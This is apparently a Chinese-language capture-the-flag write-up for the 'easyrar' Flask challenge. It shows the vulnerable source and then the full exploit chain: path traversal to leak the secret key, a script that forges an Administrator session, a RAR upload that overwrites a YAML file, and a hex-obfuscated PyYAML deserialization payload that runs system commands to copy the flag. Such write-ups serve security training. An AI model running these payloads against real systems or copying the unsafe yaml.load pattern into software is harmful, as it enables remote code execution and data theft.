


## easyrar

```python
import os
import re
import yaml
import time
import socket
import subprocess
from hashlib import md5
from flask import Flask, render_template, make_response, send_file, request, redirect, session

app = Flask(__name__)
app.config['SECRET_KEY'] = socket.gethostname()

def response(content, status):
    resp = make_response(content, status)
    return resp


@app.before_request
def is_login():
    if request.path == "/upload":
        if session.get('user') != "Administrator":
            return f"<script>alert('Access Denied');window.location.href='/'</script>"
        else:
            return None


@app.route('/', methods=['GET'])
def main():
    if not session.get('user'):
        session['user'] = 'Guest'
    try:
        return render_template('index.html')
    except:
        return response("Not Found.", 404)
    finally:
        try:
            updir = 'static/uploads/' + md5(request.remote_addr.encode()).hexdigest()
            if not session.get('updir'):
                session['updir'] = updir
            if not os.path.exists(updir):
                os.makedirs(updir)
        except:
            return response('Internal Server Error.', 500)


@app.route('/<path:file>', methods=['GET'])
def download(file):
    if session.get('updir'):
        basedir = session.get('updir')
        try:
            path = os.path.join(basedir, file).replace('../', '')
            if os.path.isfile(path):
                return send_file(path)
            else:
                return response("Not Found.", 404)
        except:
            return response("Failed.", 500)


@app.route('/upload', methods=['GET', 'POST'])
def upload():

    if request.method == 'GET':
        return redirect('/')

    if request.method == 'POST':
        uploadFile = request.files['file']
        filename = request.files['file'].filename

        if re.search(r"\.\.|/", filename, re.M|re.I) != None:
            return "<script>alert('Hacker!');window.location.href='/upload'</script>"
        
        filepath = f"{session.get('updir')}/{md5(filename.encode()).hexdigest()}.rar"
        if os.path.exists(filepath):
            return f"<script>alert('The {filename} file has been uploaded');window.location.href='/display?file={filename}'</script>"
        else:
            uploadFile.save(filepath)
        
        extractdir = f"{session.get('updir')}/{filename.split('.')[0]}"
        if not os.path.exists(extractdir):
            os.makedirs(extractdir)

        pStatus = subprocess.Popen(["/usr/bin/unrar", "x", "-o+", filepath, extractdir])
        t_beginning = time.time()  
        seconds_passed = 0
        timeout=60
        while True:  
            if pStatus.poll() is not None:  
                break  
            seconds_passed = time.time() - t_beginning  
            if timeout and seconds_passed > timeout:  
                pStatus.terminate()  
                raise TimeoutError(cmd, timeout)
            time.sleep(0.1)

        rarDatas = {'filename': filename, 'dirs': [], 'files': []}
        
        for dirpath, dirnames, filenames in os.walk(extractdir):
            relative_dirpath = dirpath.split(extractdir)[-1]
            rarDatas['dirs'].append(relative_dirpath)
            for file in filenames:
                rarDatas['files'].append(os.path.join(relative_dirpath, file).split('./')[-1])

        with open(f'fileinfo/{md5(filename.encode()).hexdigest()}.yaml', 'w') as f:
            f.write(yaml.dump(rarDatas))

        return redirect(f'/display?file={filename}')


@app.route('/display', methods=['GET'])
def display():

    filename = request.args.get('file')
    if not filename:
        return response("Not Found.", 404)

    if os.path.exists(f'fileinfo/{md5(filename.encode()).hexdigest()}.yaml'):
        with open(f'fileinfo/{md5(filename.encode()).hexdigest()}.yaml', 'r') as f:
            yamlDatas = f.read()
            if not re.search(r"apply|process|out|system|exec|tuple|flag|\(|\)|\{|\}", yamlDatas, re.M|re.I):
                rarDatas = yaml.load(yamlDatas.strip().strip(b'\x00'.decode()))
                if rarDatas:
                    return render_template('result.html', filename=filename, path=filename.split('.')[0], files=rarDatas['files'])
                else:
                    return response('Internal Server Error.', 500)
            else:
                return response('Forbidden.', 403)
    else:
        return response("Not Found.", 404)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8888)
```

首先我们要上传文件，这里有session验证，且key为`socket.gethostname()`，在`/`路由有目录穿越可以读文件，读一下`/etc/hosts`



也就是说密钥是`engine-1`，用jwt.io伪造session有问题，本地起一个flask

```python
from flask import Flask,session

app = Flask(__name__,template_folder='.')

app.config['SECRET_KEY'] = "engine-1"

@app.route('/',methods=['GET'])
def main():
    session['updir'] = "./"
    session['user'] = "Administrator"
    return "ok"

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=8889)
```

之后便可以成功上传文件，接下来审计代码逻辑，这里`yaml.load`可以造成反序列化那么我们的目的是覆盖yaml文件

将rar文件名更改为`fileinfo.rar`，压缩包内是内容为反序列化payload文件名为`fileinfo.rar`的md5的yaml文件

第一次上传了一个fileinfo.rar之后会在fileinfo下生成yaml文件，之后会生成一个同名yaml文件将这个yaml文件覆盖

第二次时将`fileinfo.rar`更名为`fileinfo.rarb`再上传，此时会覆盖原来yaml文件，且新生成的yaml文件不会覆盖

此时成功控制了写入文件的内容

之后便是yaml反序列化，参考：

https://hackmd.io/@harrier/uiuctf20

我们将payload稍作修改：

需要注意的是rce后发现权限不够，find一下高权限发现dd命令，用dd提权

```python
dirs: ['']
filename: snakin
files:
- !!python/object/new:yaml.MappingNode
  listitems: !!str "!!python/object/new:eval  [ \x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x64\x64\x20\x69\x66\x3d\x2f\x66\x6c\x61\x67\x20\x6f\x66\x3d\x2f\x74\x6d\x70\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x20\x3e\x20\x2f\x74\x6d\x70\x2f\x63\x2e\x74\x78\x74\x27\x29 ]"
  state:
    tag: !!str dummy
    value: !!str dummy
    extend: !!python/name:yaml.unsafe_load
```

可以通过以下脚本更换命令

```python
byte_var = b"__import__('os').system('dd if=/flag of=/tmp/flag.txt > /tmp/snakin.txt')"
for i in byte_var:
    i = hex(i)
    i = i.replace("0", "\\",1)
    print(i,end="")
```

最后利用最开始的目录穿越读我们写入tmp的flag文件


